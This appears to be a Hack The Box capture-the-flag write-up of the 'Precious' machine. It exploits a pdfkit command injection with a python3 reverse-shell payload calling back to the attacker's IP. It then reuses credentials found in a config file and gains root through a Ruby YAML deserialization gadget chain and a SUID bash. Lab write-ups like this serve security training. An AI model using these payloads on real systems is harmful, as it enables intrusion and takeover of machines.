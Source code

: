 # HTB - Precious
##  Difficulty level: Easy
------------------------------------------------------

For start, i'll run nmap scan on all ports of the machine:
```bash
nmap 10.10.11.189 -p-
```
I found that ports 22 (ssh) and 80 (http) are open.
I will run another nmap scan for deeper look on this ports:
```bash
nmap -A 10.10.11.189 -p 22, 80
```

![image](https://user-images.githubusercontent.com/114166939/225315053-fbb7090c-6dac-4930-a86b-e5dd9dfca859.png)

It seems that there is nothing interesting about the ssh, but there is a website on the domain "http://precious.htb/" which works on nginx 1.18.0.

Now, before i'll try to open the website page, i'll add the domain to the /etc/hosts file.
```bash
nano /etc/hosts
```
![image](https://user-images.githubusercontent.com/114166939/225313538-ccb7e436-9d80-47cf-8873-baf4032e4875.png)

Now the website appears!

![image](https://user-images.githubusercontent.com/114166939/225313809-d39cc651-8fb8-43e8-ba52-4e2a4b3cc801.png)

The edit text does'nt getting any remote url, so i'll try a local one.

I'll open a python3 web server on my machine.
```bash
python3 -m http.server
```
And now I can write in the edit box at the web page the following url: 
"http://[MY-IP]:8000"

I got a screen-shot of my python3 server as a PDF file.

![image](https://user-images.githubusercontent.com/114166939/225316684-a2b9fc4d-b9cb-41e8-bbc1-8121afb38f6a.png)

I will save this screen-shot as a file on my machine and now i'll try to analyze it with exiftool:
```bash
exiftool 68ci7ek2mcv3lsdmyup77rgd2gbv1e3d.pdf 
```

![image](https://user-images.githubusercontent.com/114166939/225317837-a4bbd9a8-b25f-4836-9c7c-d0ed7f6c8f1e.png)

The creator of this file called "pdfkit v0.8.6", that's the service the server use to make the pdf files.

There is a known command injection exploit on this service - i'll use an exploit from this website: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

![image](https://user-images.githubusercontent.com/114166939/225319623-001804a0-bbe6-4673-8018-1baf4dd043e2.png)

First, i'll try to force the website a 5 seconds delay, also, I will use the python3 server again:
```bash
http://[MY-IP]:8000/?name=#{'%20`sleep 5`'}.to_pdf 
```
It works! now, I can change the sleep command for another command to get a reverse-shell on the machine:

Before i'll try to modify the injection command, i'll open netcat listener with the following line:
```bash
nc -lnvp 4567
```
Now, the new injection will change from sleep command to python3 ,url encoded, reverse shell command:
```bash
http://[MY-IP]:8000/?name=#{'%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[MY-IP]",4567));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'`'}.to_pdf
```

![image](https://user-images.githubusercontent.com/114166939/225328174-91a1b7dd-fdfa-4c25-b14e-1d91c8b6189c.png)

First, i'll search for some information on current user:

![image](https://user-images.githubusercontent.com/114166939/225333012-81439138-679f-4b18-b65e-10a8ad6b56b8.png)

![image](https://user-images.githubusercontent.com/114166939/225333607-a5d1aeb9-b480-4e58-8972-0f24571cba3c.png)

Also. i'll try find out which users there are on the machine:

![image](https://user-images.githubusercontent.com/114166939/225333916-049f591e-7408-442e-b437-ececc76fe188.png)

The flag is at henry's home directory and as the current user, ruby, I do'nt have access:

![image](https://user-images.githubusercontent.com/114166939/225334484-de30199a-6b96-405b-aa55-1071a5c3ee4f.png)

On ruby's home directory there is a hidden suspicious direcory called ".bundle", in it I found a file called "config".

The content of this file is henry's credentials!

![image](https://user-images.githubusercontent.com/114166939/225337296-47f43372-f10d-469d-a889-650f974dfc83.png)

I'll use this credentials to connect henry via ssh:
```bash
ssh henry@10.10.11.189
```
Success!

![image](https://user-images.githubusercontent.com/114166939/225338482-1ceadbc3-221c-4d04-9ff1-d39ad31a96d7.png)

From henry's user I can print user.txt and get the flag:

![image](https://user-images.githubusercontent.com/114166939/225341738-a71c81b8-7ad0-4b86-b35c-4d19bcbf178b.png)

Now im going to escalate the privileges from henry to root!
First i'll run a "sudo -l" command:

![image](https://user-images.githubusercontent.com/114166939/225344459-9825a004-cb6a-420c-aee6-3a0d4de09550.png)

Let's check "/opt/update_dependencies.rb" file:

![image](https://user-images.githubusercontent.com/114166939/225345307-a1620b31-9fbf-4186-8df7-0d4c3a7ce3da.png)

![image](https://user-images.githubusercontent.com/114166939/225349125-5ff2901d-2d49-405e-9654-436a15f06c05.png)

In the code I can see that it use a function called "YAML.load()" and it loads a file called dependencies.yml.
After searching online, I found this website - https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

In this website there is a yml code for bash command injection:
I'll change the "git_set:" option to test if it works and save it as "dependencies.yml" in henry's home directory:
(Any command running from this file will run as root permissions)
```yml
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve 
```

And run:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

It works!

![image](https://user-images.githubusercontent.com/114166939/225352225-0d9b5b75-af30-43a6-84c3-ad6e1f2ff8e8.png)

Instead of "whoami" command i'll change the command for this:
```bash
chmod +s /bin/bash
```

So on "/bin/bash" will be SUID:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![image](https://user-images.githubusercontent.com/114166939/225358387-20e3c0ea-a5ac-45b9-9fb0-25592872501e.png)

Now all that's left to do is running the command:
```bash
/bin/bash -p
```

![image](https://user-images.githubusercontent.com/114166939/225359267-b004b58a-c1cf-4974-b7f4-a90b55de79c4.png)

![image](https://user-images.githubusercontent.com/114166939/225359919-3ea38c37-2aaf-4903-b7c7-20d25e89ffd0.png)

